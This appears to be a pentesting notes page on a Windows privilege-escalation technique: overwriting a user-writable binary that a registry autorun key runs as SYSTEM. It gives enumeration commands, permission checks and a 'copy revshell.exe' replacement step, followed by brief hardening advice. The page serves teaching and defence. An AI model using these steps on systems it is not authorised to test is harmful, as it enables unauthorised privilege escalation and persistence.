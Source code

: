 # Modifiable Registry Autorun Binary

Windows supports several registry-based **autorun mechanisms**, where specific programs are automatically executed at user login or system boot. If the path to an executable listed in one of these autorun keys points to a **binary that is writable by a low-privileged user**, an attacker can replace it with a malicious payload to escalate privileges or gain persistence.
## Core Idea

- **Binary is executed by SYSTEM or admin**.    
- **Path to binary is fixed in registry** (autorun key, service, or UI helper).
- **Low-privileged user can modify the binary** — not the registry itself.

> In contrast to "Permissive Registry ACLs", here the **registry is secure**, but the **binary on disk is not**.
## Common Autorun Registry Keys

| Key Location                                                     | Description                            |
| ---------------------------------------------------------------- | -------------------------------------- |
| `HKLM\Software\Microsoft\Windows\CurrentVersion\Run`             | Run on boot for all users (privileged) |
| `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`             | Run on login for current user          |
| `HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce`         | Run once at startup (SYSTEM)           |
| `HKLM\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Run` | 32-bit Run key on 64-bit systems       |

These keys point to **executable paths**. If the file they point to is writable, you can hijack execution.
## Exploitation Steps

### 1. Enumerate Registry Entries

```powershell
Get-ItemProperty "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
```

Note the paths of any executables or scripts being launched.
### 2. Check File Permissions

Use `accesschk` to identify if you have write access:

```cmd
accesschk64.exe -quvw "C:\Path\To\Binary.exe"
```

Or with PowerShell:

```powershell
(Get-Acl "C:\Path\To\Binary.exe").Access
```

Look for:

```
BUILTIN\Users Allow  FullControl
```
### 3. Replace the Executable

If the binary is writable and executed by SYSTEM at boot/login:

```cmd
copy revshell.exe C:\Path\To\Binary.exe
```

On next reboot or login, your payload runs with elevated privileges.
## Real-World Scenarios

- IT scripts or helper utilities configured via GPO logon scripts or Run keys.    
- Applications that drop binaries to `C:\ProgramData\`, `C:\Temp\`, or `C:\Users\Public\` and register them to autorun.    
- MSI installers that leave behind maintenance tasks in the registry pointing to writable files.
## Detection & Hardening
### Defense Recommendations:

- Use AppLocker or WDAC to restrict allowed executables.    
- Audit registry keys under `Run`, `RunOnce`, and services.
- Ensure that **executables referenced in autorun keys are not modifiable** by unprivileged users.
- Monitor for unauthorized modifications in `ProgramData`, `Public`, and `Temp`.
## Summary

If you can't edit the registry directly, look for opportunities where **you can overwrite the binary** that is being called from a registry key. This often bypasses UAC or security monitoring, especially in poorly hardened environments.
